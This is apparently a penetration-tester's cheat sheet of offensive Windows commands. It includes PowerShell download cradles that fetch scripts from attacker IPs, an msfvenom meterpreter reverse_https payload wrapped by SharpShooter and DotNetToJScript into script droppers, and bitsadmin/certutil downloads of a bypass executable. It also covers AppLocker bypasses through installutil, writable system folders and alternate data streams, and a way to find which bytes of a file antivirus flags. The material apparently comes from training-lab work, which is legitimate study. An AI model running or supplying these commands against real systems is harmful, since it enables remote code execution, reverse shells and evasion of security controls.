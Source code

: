 # Proxies
## Remap reg hive
```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
```

## Change UA of webclient
```
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36")
$wc.DownloadString("http://192.168.119.120/run.ps1")
```

## Get Proxy settings as SYSTEM
```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}

$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.71/clip.txt")
```
## Create Jscript rev shell and vbscript
```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
DotNetToJScript.exe ExampleAssembly.dll --lang=vbscript --ver=v4 -o demo.vbs
```
## Sharpshooter

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f raw -o /var/www/html/shell.txt
┌──(kali㉿kali)-[/opt/SharpShooter]
└─$ sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test

```
# LOLBINS
## File download and applocker bypass exe

```
bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\users\student\enc.txt
certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe
del C:\users\student\enc.txt
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
```
# Applocker Bypass
## Copy to unprotected directories
```
copy Bypass.exe C:\Windows\Tasks
C:\Windows\Tasks\Bypass.exe 
```
## ADS
file must be both writable and executable
```
type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```
# AV
## Find signature
```
Import-Module .\Find-AVSignature.ps1
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
```
